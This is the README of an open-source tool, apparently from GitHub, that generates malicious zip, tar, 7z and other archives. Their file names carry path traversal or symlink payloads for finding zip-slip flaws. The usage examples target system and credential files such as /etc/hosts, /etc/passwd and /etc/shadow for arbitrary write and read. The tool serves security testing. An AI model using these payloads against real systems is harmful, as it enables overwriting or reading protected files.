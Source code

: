 # Slip (experimental branch)

Slip is a malicious archive generator to exploit path traversal vulnerabilities.

Slip makes it easy to create multiple archives containing path traversal payloads in file name fields, rendering the extraction of the archive a potentially dangerous operation. With this approach it is possible to find and exploit "[zip-slip](https://security.snyk.io/research/zip-slip-vulnerability)" type vulnerabilities.

## Motivation

Most commonly used tools rarely support path traversal payloads in archives, this makes it hard and time consuming to create malicious archives when attempting to find vilnerabilities in a software. With slip it's really convenient to create higly customizable archives that fit most situations.

## Features

Slip is a feature rich script capable of satisfying most "zip-slip" hunting needs, in particular the script:

- Supports **zip**, **tar**, **7z**, **jar**, **war**, **apk** and **ipa** archives 
- Allows to hunt for **arbitrary file write** and **arbitrary file read** vulnerabilities (using paths or symlinks)
- Supports the automatic generation of path traversal payloads to look for a file at different depths in the filesystem
- Supports the usage of custom path traversal "dotdotslash" sequences
- Implements a "massfind" mode, that uses a payload dictionary to generate the archive
- Allows cloning existing archives to add malicious payloads in more complex archives

## Getting started

### Installation
Clone the repo, install the requirements (`pip install -r requirements.txt`) and you're good to go!

### Usage
```
Usage: slip.py [OPTIONS] ARCHIVE_NAME

  Script to generate "zipslip" and "zip symlink" archives.

  ARCHIVE-NAME is the name of the archive to be created.

Options:
  -a, --archive-type [zip|tar|7z|jar|war|apk|ipa]
                                  Type of the archive.  [default: zip]
  -c, --clone TEXT                Archive to clone. It creates a copy of an
                                  existing archive and opens to allow adding
                                  payloads.
  -j, --json-file TEXT            JSON file containing a list of file
                                  definitions
  -p, --paths TEXT                Comma separated paths to include in the
                                  archive.
  -s, --symlinks TEXT             Comma separated symlinks to include in the
                                  archive. To name a symlink use the syntax:
                                  path;name
  --file-content TEXT             Content of the files in the archive, file-
                                  content must be specified if -p/--paths is
                                  used.
  --search INTEGER                Maximum depth in path traversal payloads,
                                  this option generates payload to traverse
                                  multiple depths. It applies to all symlinks
                                  and paths.  [default: 0]
  --dotdotslash TEXT              Dot dot slash sequence to use in search
                                  mode.  [default: ../]
  --mass-find TEXT                Name of the file to find. It will create an
                                  archive with numerous path traversal
                                  payloads aimed to find the specified file
                                  name. WARNING: it uses A LOT of payloads,
                                  use with caution.
  --mass-find-mode [paths|symlinks]
                                  Mass-find mode to use  [default: symlinks]
  --mass-find-dict FILENAME       Mass-find payload dictionary  [default:
                                  path_traversal_dict.txt]
  --compression [none|deflate|bzip2|lzma|lzma2|ppmd|brotli|zstandard|copy]
                                  Compression algorithm to use in the archive.
  -v, --verbose                   Verbosity trigger.
  --help                          Show this message and exit.

```

### Usage example

Create a tar.bz2 archive containing 2 explicit paths: 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "../etc/hosts, ../../etc/hosts" --file-content "foo" archive.tar
```

Create a zip archive containing an explicit path and an explicit symlink: 
```
python3 slip.py --archive-type zip --compression deflate --paths "../etc/hosts" --symlinks "../etc/shadows" --file-content "foo" archive.zip
```

Create a 7z archive with a named symlink:
```
python3 slip.py --archive-type zip --symlinks "../etc/hosts;linkname" archive.zip  
```
This technique is really useful in case directory traversal payloads are filtered in paths but not in symlink, as it would be possible to achieve an arbitrary write file referring to the named symlink as parth of the path (e.g. symlink: `../etc/;foo`, path: `foo/hosts`).

Create an archive from an existing one and add a new payload:
```
python3 slip.py --clone source.7z --paths "foo" --file-content "bar" archive.7z
```

Create an archive from a JSON file and add new payloads:
```
python3 slip.py --json-file definition.json --paths "foo0,bar00" --symlinks "/etc/passwd,/etc/shadow"--file-content "buzz" archive.zip
```

With `definition.json` containing:
```
[
    {
        "file-name": "../foo1",
        "content":"bar",
        "type":"path"
    },
    {
        "file-name": "../../foo2",
        "content":"bar",
        "type":"path"
    },
    {
        "file-name": "/etc/passwd;foo3",
        "content":"IGNORED",
        "type":"symlink"
    },
    {
        "file-name": "foo4",
        "content":"Y2lhbwo=",
        "base64": true,
        "type":"path"
    }
]
```
Supported fields are `file-name`, `content`, `base64`, `type`.
If `base64` is specified, content will be decoded form base64.
`type` can only be `path` or `symlink`.

Create a tar.bz2 archive with 4 payloads to search for "config.ini" at 3 different depths (it also uses Windows flavor dot dot slash): 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "config.ini" --search 3 --dotdotslash "..\\" --file-content "foo" archive.tar
```
The archive will contain:
```
config.ini
..\config.ini
..\..\config.ini
..\..\..\config.ini
```
NOTE: --search does not support named symlink usage to prevent named symlinks from overwriting eachother. 

Create a tar archive with payloads from the default mass-find dictionary to find the `/etc/host/` file:
```
python3 slip.py --archive-type tar --mass-find "/etc/hosts" --mass-find-mode symlinks archive.tar
```

## License
This project is licensed under the GPL-3.0 [License](https://github.com/0xless/slip/blob/main/LICENSE).
